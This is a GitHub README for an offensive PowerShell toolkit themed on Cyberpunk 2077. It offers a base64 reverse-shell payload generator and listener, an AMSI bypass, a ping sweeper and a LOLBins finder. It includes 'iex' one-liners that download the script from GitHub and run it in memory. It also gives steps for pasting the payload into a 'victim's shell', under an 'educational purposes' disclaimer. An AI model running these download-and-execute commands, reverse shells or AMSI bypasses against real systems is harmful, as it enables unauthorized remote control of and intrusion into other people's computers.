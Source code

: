 <div align="center" style="display:flex;">
  <img src="https://github.com/h0ru/antiarasaka/assets/117091833/c5e7af4a-d7b7-484e-be27-ea9fbed97749" width="800">
</div>

- - - 

> [!Warning]
> **This program was written and designed for educational purposes, with features associated with the world of Cyberpunk 2077.** \
> **The project's author does not take responsibility for any use of the tool and maintains its use strictly for educational purposes.**

- - -

> [!NOTE] 
> **This project explores ideas that have already been developed in my previous projects, but it was created to optimize and also motivate me to create something larger.**\
> **Being a fan of the Cyberpunk 2077 story, I sought inspiration in "something" that could counter Arasaka. So here is the idea: AntiArasaka T00l K1t.**

- - -

### What will you find here?

```
aka.ps1
├──AntiArasaka-Alias               # Similar to Get-Alias
├──AntiArasaka-Help                # Similar to Get-Help
├──LOLBins Finder             
|  └──AntiArasaka-Binaries         # Based on LOLBAS Projetct
├──Generator RevShell & Listener           
|  ├──AntiArasaka-Listener         # Native powershell listener
|  └──AntiArasaka-Payload          # PowerShell paylaod base64 encoded
├──AMSI-Reaper
|  └──AntiArasaka-Reaper           # Based on my project AMSI-Reaper
└──PSWEEPX
   └──AntiArasaka-Sweep            # Based on my project PSWEEPX from icmp-quickhacks
```

- - -

### How to use?

> [!TIP]
> #### _Less DISK, more RAM_
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1')
```
```
iex (iwr https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```
```
iex (irm https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```

> [!TIP]
> #### _Use the aliases_
```
        Command                          Alias
        -------                          ------
        AntiArasaka-Alias          ->     aaa
        AntiArasaka-Help           ->     aah
        AntiArasaka-Binaries       ->     aab
        AntiArasaka-Listener       ->     aal
        AntiArasaka-Payload        ->     aap
        AntiArasaka-Reaper         ->     aar
        AntiArasaka-Sweep          ->     aas
```

> [!TIP]
> #### _What is the purpose of the AntiArasaka-Binaries?_
- Based on the concept of the 198 exploits cataloged at: https://lolbas-project.github.io, I wanted to create a small validator using PowerShell, just a way to verify what we have in the current system that can be used as LOLBINS.
- Good references to LOLBINS: [The LOLBAS Project](https://mitre-attack.github.io/attack-navigator/#layerURL=https://lolbas-project.github.io/mitre_attack_navigator_layer.json)
- How to use AntiArasaka-Binarie.:
```
AntiArasaka-Binarie -Filter .exe, .dll, .ps1
AntiArasaka-Binarie -Filter .vbs
AntiArasaka-Binarie -Name cmd.exe
AntiArasaka-Binarie -Name .bat
AntiArasaka-Binarie -Name winrm.vbs
```

> [!TIP]
> #### _How to use AntiArasaka-Listener & AntiArasaka-Payload_
- Attention to these errors:
![image](https://github.com/h0ru/antiarasaka/assets/117091833/63e1ed73-2629-4a2d-87a0-ec7b388d5e34)
![image](https://github.com/h0ru/antiarasaka/assets/117091833/75af46c3-5875-4986-8a73-32b1e849fc49)
```
1. aap -i 192.168.1.1 -p 443 #Payload
2. [+] Payload copied to clipboard! Use Ctrl+V to paste and execute.
3. aal -i 192.168.1.3 -p 443 #Listener
4. Paste your payload into the victim's shell (Consider hosting the shell on a file and requesting it remotely)
```

- - -
